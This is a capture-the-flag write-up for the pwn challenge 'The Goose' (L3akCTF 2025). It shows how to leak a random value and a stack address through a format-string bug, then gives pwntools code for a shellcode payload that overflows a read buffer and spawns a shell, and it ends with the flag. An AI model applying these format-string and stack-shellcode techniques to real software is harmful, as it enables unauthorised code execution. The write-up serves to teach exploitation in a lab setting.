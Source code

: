 ```yaml
---
title: The Goose
date: 2025-07-14T21:39:11+03:00
description: Writeup for The Goose [L3akCTF_2025s]
author: vikcoc
tags:
- pwn
draft: false
---
```

___

## Challenge Description

When the honking gets tough, you better brush up on your basics

## Intuition

Checking with pwndbg we see that we probably are expected to execute a shell payload from the stack.
```bash
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

## Solution

Sifting through the code with Ghidra we see that `highscore` is an interesting function
```C
  __isoc99_scanf(&DAT_001024eb,local_78);
  local_d9 = 0;
  sprintf(local_f8,(char *)&local_58,local_78);
  printf(local_f8);
```
There is a printf where we control the format string fallowed by a read of greater size than the stack frame.
```ASM
        001013bd 48 8d 85        LEA        RAX=>local_178,[RBP + -0x170]
                 90 fe ff ff
        001013c4 ba 00 04        MOV        EDX,0x400
                 00 00
        001013c9 48 89 c6        MOV        RSI,RAX
        001013cc bf 00 00        MOV        EDI,0x0
                 00 00
        001013d1 b8 00 00        MOV        EAX,0x0
                 00 00
        001013d6 e8 85 fc        CALL       <EXTERNAL>::read                                 ssize_t read(int __fd, void * __
                 ff ff
```
To get there though we must guess a random number generated by the process.\
The number is generated before we are asked to guess, which suggests, that it too, must be leaked.\
If we search for it at runtime, we can find it with the global variables, right after the username. Username that gets printed after the number is generated.
```python
position_of_leaked_rand = -18
print(target.sendlineafter(b'e call you?', b'a' * 0x40).decode())
line = target.recvuntil(b'?', timeout=2)
target.sendline(str(line[position_of_leaked_rand]).encode())
```
With a long username we get to leak the random value, which we send right back to get access to the `highscore` function.\
There we are asked to input another string, which gets to be the template string for printf, function that we can exploit to leak values on the stack[^1].
```python
print(target.sendlineafter(b'again?', b'%1$p').decode())
line = target.recvuntil(b'so good',timeout=2)
```
Turns out that, on position 1, there is a stack address which we can use to compute the value of `RBP`.\
After that it's just a matter of crafting a shellcode payload, which pwntools can provide.
```python
buffer_size = 0x170
binshlen = rbplen = 0x8
shell = pwn.asm(pwn.shellcraft.sh())
pay = b'/bin/sh\0' + shell + b'b' * (buffer_size - binshlen - len(shell)) + b'c' * rbplen + pwn.p64(rbpaddr - buffer_size + binshlen)
```
And read the flag with the shell.

### Flag

`L3AK{H0nk_m3_t0_th3_3nd_0f_l0v3}`

## References

[^1]: https://pagedout.institute/download/PagedOut_004_beta1.pdf page 54
